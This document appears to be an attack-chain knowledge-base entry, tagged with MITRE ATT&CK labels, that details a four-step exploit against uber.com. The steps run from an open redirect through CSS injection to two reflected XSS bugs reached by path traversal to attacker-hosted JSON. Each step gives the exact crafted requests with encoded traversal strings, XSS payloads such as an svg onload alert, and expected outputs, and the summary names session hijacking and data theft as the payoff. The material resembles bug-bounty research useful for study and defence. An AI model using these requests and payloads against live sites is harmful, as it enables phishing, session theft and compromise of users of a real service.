

---
tags:
  - open-redirect
  - css-injection
  - reflected-xss
  - web-vulnerability
  - uber
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Discover-Open-Redirect-on-Uber-Domain]]'
  - '[[procedures/Exploit-CSS-Injection-via-Theme-Parameter]]'
  - '[[procedures/Exploit-Reflected-XSS-in-Careers-Endpoint]]'
  - '[[procedures/Exploit-Reflected-XSS-in-Cities-Endpoint]]'
step_count: 4
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
updated_at: '2025-12-14T17:24:27.242Z'
description: >-
  A multi-stage web vulnerability chain exploiting open redirects, CSS
  injection, and reflected XSS on uber.com to achieve arbitrary JavaScript
  execution on the trusted domain.
skill_level: intermediate
impact_level: high
id: 26eaab2d-3e60-4855-a105-455f5d69a0c8
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# Chained Open Redirect, CSS Injection, and Reflected XSS on Uber.com for Arbitrary JavaScript Execution

Multi-stage attack chain demonstrating a complete attack workflow exploiting path traversal and unvalidated inputs on uber.com to chain open redirects into CSS injection and ultimately reflected XSS for JavaScript execution.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome with developer tools)
- URL encoder/decoder tool (built-in or online)

### Target Environment

- Target: uber.com web application
- Required services/ports: HTTP/HTTPS on port 80/443
- Network access requirements: Direct internet access to uber.com

### Initial Access Requirements

- No credentials required
- Public network position
- No prior access needed

## Detailed Attack Procedures

### Step 1: Discover Open Redirect
procedure: [[procedures/Discover-Open-Redirect-on-Uber-Domain]]

**Objective**: Identify and validate an open redirect vulnerability in the uber.com path handling to enable redirection to arbitrary external domains.

**Instructions**: Access the manipulated URL in a web browser to trigger the redirect. Use developer tools to inspect the HTTP response headers for the 301 status and Location header.

```http
GET https://www.uber.com/en//example.com/
```

Monitor the browser's network tab to confirm the redirect to //example.com/.

**Expected Output**: HTTP 301 response with Location: //example.com/, and browser navigates to the external domain.

**Success Indicators**:
- Redirect occurs without validation
- External domain loads successfully

### Step 2: Exploit CSS Injection via Theme Parameter
procedure: [[procedures/Exploit-CSS-Injection-via-Theme-Parameter]]

**Objective**: Leverage the open redirect to inject and load external CSS stylesheets, altering the page's styling and potentially enabling further attacks.

**Instructions**: Construct the URL with path traversal in the theme parameter and access it in the browser. Inspect the page source to verify the injected <link> tag points to the external CSS.

```http
GET https://www.uber.com/?theme=../en//example.com/css-code.css%23
```

The browser will resolve and load https://example.com/css-code.css.

**Expected Output**: Page loads with external CSS applied, visible in developer tools as <link rel="stylesheet" id="theme-css" href="https://uber.com/stylesheets/../en//example.com/css-code.css#.css">.

**Success Indicators**:
- External CSS file loads
- Page styling changes based on external rules

### Step 3: Exploit Reflected XSS in Careers Endpoint
procedure: [[procedures/Exploit-Reflected-XSS-in-Careers-Endpoint]]

**Objective**: Use path traversal to load external JSON containing XSS payloads, which are reflected and executed as JavaScript on the uber.com domain.

**Instructions**: URL-encode the path traversal and access the endpoint. Prepare an external JSON file at example.com/file.json with payload in the 'overview' field, then load the URL.

```http
GET https://www.uber.com/careers/list/..%2f..%2fen%2f%2fexample.com%2ffile.json/
```

The JSON loads, and the payload renders on the page.

**Expected Output**: Alert box pops up with 'XSS on uber.com' or similar, confirming JS execution.

**Success Indicators**:
- External JSON loads into the page
- XSS payload executes (e.g., alert triggered)

### Step 4: Exploit Reflected XSS in Cities Endpoint
procedure: [[procedures/Exploit-Reflected-XSS-in-Cities-Endpoint]]

**Objective**: Achieve higher control over page content by injecting HTML/JS payloads via external JSON in the cities endpoint, leading to full DOM manipulation on uber.com.

**Instructions**: Double-encode the path traversal for the cities slug and access the URL. Host external JSON at example.com/file.json with payloads in 'name' field, then trigger the load.

```http
GET https://www.uber.com/cities/%252e%252e%2f%252e%252e%2fen%2f%2fexample.com%2ffile.json/
```

Payloads like <marquee>XSS</marquee> and <svg onload="alert('XSS on '+ document.domain)"> render.

**Expected Output**: Marquee element appears, and alert executes, demonstrating injected HTML and JS.

**Success Indicators**:
- Page renders injected HTML elements
- JavaScript from SVG or similar executes on uber.com domain

## Attack Chain Summary

### Key Achievements

1. Validated open redirect for phishing setup
2. Injected external CSS for visual manipulation
3. Achieved reflected XSS in two endpoints for JS execution
4. Enabled potential session hijacking or data theft on trusted domain

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---

*Last updated: 2023-10-01T00:00:00Z*
